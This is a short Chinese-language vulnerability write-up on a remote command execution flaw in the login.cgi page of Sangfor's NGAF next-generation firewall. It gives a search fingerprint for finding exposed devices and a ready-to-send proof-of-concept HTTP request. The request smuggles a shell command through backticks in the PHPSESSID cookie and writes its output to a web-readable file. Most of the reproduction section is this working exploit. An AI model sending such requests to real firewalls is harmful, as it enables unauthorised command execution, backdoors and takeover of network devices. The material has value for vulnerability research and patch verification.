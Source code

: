 # 

# 深信服 NGAF下一代防火墙 login.cgi 远程命令执行漏洞

## 漏洞描述

深信服下一代防火墙是一款以应用安全需求出发而设计的下一代应用防火墙。深信服下一代防火墙在 login.cgi 路径下，PHPSESSID 处存在命令执行漏洞。攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

## 漏洞影响

深信服 NGAF下一代防火墙

## 网络测绘

```
"Redirect.php?url=LogInOut.php"
```

## 漏洞复现

登陆页面

![image-20231115101204343](images/image-20231115101204343.png)

poc

```
POST /cgi-bin/login.cgi HTTP/1.1 
Host: 
Cache-Control: max-age=0 
Content-Type: Application/X-www-Form
y-forwarded-for: 127.0.0.1
Cookie: PHPSESSID=`$(id > /fwlib/sys/virus/webui/svpn_html/3.txt)`;

{"opr":"login", "data":{"user": "watchTowr" , "pwd": "watchTowr" , "vericode": "NSLB" , "privacy_enable": "0"}}
```

![image-20231115101222783](images/image-20231115101222783.png)

访问

```
/svpn_html/3.txt
```


